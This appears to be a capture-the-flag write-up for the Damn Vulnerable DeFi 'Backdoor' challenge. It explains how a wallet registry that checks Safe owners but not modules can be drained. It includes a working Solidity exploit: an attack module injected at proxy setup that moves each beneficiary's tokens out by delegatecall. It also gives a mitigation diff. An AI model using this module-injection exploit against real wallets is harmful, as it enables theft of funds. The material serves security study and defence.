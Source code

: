 # Backdoor

## Safe

     A multi-sig wallet with modular extensions

Thanks to [Gmhacker](https://www.gmhacker.com/safe-smart-account-1-3-0-a-deep-dive-part-1) for the excellent deep dive.

![Safe Structure](./resource/structure.png)

## Description

### Normal Behavior

- Registered beneficiaries can deploy Safe proxy wallets via `WalletRegistry`
- Upon successful deployment, each wallet receives 10 DVT tokens from the registry

### Issue

Safe wallets have two types of privileged actors:

- Owner
- Module

The `WalletRegistry.proxyCreated()` callback only validates wallet **ownership**:

```solidity
// WalletRegistry.sol - Line 95-98
address[] memory owners = Safe(walletAddress).getOwners();
if (owners.length != EXPECTED_OWNERS_COUNT) {
    revert InvalidOwnersCount(owners.length);
}
```

It does **not** check if any modules are enabled on the wallet.

Since `SafeProxyFactory.createProxyWithCallback()` is a **public function**, anyone can deploy a proxy on behalf of a beneficiary:

```solidity
// SafeProxyFactory.sol - Line 86-95
function createProxyWithCallback(
    address _singleton,
    bytes memory initializer,
    uint256 saltNonce,
    IProxyCreationCallback callback
) public returns (SafeProxy proxy) {
    uint256 saltNonceWithCallback = uint256(keccak256(abi.encodePacked(saltNonce, callback)));
    proxy = createProxyWithNonce(_singleton, initializer, saltNonceWithCallback);
    if (address(callback) != address(0)) callback.proxyCreated(proxy, _singleton, initializer, saltNonce);
}
```

So, attacker can temporily give up ownership and add a module that can control over ownership and token balance of proxy to pass the registry check and take all the fund

## Risk

### Impact

**High**

- All 40 DVT tokens (10 per beneficiary × 4 beneficiaries) can be drained immediately
- The attack is undetectable by the system and beneficiaries
- The loss token can't be recover

### Likelihood

**High**

- No prerequisites or special conditions
- Anyone can call `createProxyWithCallback(...)`
- Single transaction can drain all 4 beneficiaries (40 DVT total)

## Proof of Concept

### Textual PoC

1. Deploy attack module
2. Deploy a proxy with owner is temporily set to beneficiary, and module is set to attack module
3. The proxy pass the ownership validation so registry transfer 10 DVT to proxy
4. Use the enabled module to call `execTransactionFromModule(...)`, which can transfer tokens to attacker's address/take over ownership
5. Execute for all 4 beneficiaries

### Coded PoC

[Backdoor.t.sol](../../test/backdoor/Backdoor.t.sol)

```solidity
contract AttackModule {
    IERC20 immutable token;
    address immutable recovery;

    constructor(address token_, address recovery_) {
        token = IERC20(token_);
        recovery = recovery_;
    }

    function attack(address proxy_) external {
        (bool success, ) = proxy_.call(
            abi.encodeWithSignature(
                "execTransactionFromModule(address,uint256,bytes,uint8)",
                address(this),
                0,
                abi.encodeWithSelector(AttackModule.transfer.selector, 10e18),
                Enum.Operation.DelegateCall
            )
        );
        require(success, "Attack failed");
    }

    function transfer(uint256 amount_) external {
        token.transfer(recovery, amount_);
    }

    function enableModule(address module_) external {
        (bool success, ) = address(this).call(
            abi.encodeWithSignature("enableModule(address)", module_)
        );
        require(success, "Enable module failed");
    }
}

function test_backdoor() public checkSolvedByPlayer {
    AttackModule module = new AttackModule(address(token), recovery);

    for (uint i = 0; i < users.length; ++i) {
        //Deploy a wallet owned by user[i] with the module of player
        address[] memory beneficiary = new address[](1);
        beneficiary[0] = users[i];
        bytes memory initializer = abi.encodeWithSelector(
            Safe.setup.selector,
            beneficiary,
            1,
            address(module),
            abi.encodeWithSelector(
                AttackModule.enableModule.selector,
                address(module)
            ),
            address(0),
            address(0),
            0,
            player
        );
        SafeProxy proxy = walletFactory.createProxyWithCallback(
            address(singletonCopy),
            initializer,
            i,
            walletRegistry
        );
        //Transfer tokens from wallet to recovery
        module.attack(address(proxy));
    }
}
```

## Recommended Mitigation

**Add module validation to the registry callback**:

```diff
function proxyCreated(SafeProxy proxy, address singleton, bytes calldata initializer, uint256) external override {
    // ...
+   (address[] memory modules, ) = Safe(walletAddress).getModulesPaginated(SENTINEL_MODULES, 1);
+   require(modules.length == 0, "Wallet must not have modules enabled");

    address[] memory owners = Safe(walletAddress).getOwners();
    if (owners.length != EXPECTED_OWNERS_COUNT) {
        revert InvalidOwnersCount(owners.length);
    }
    // ...
}
```
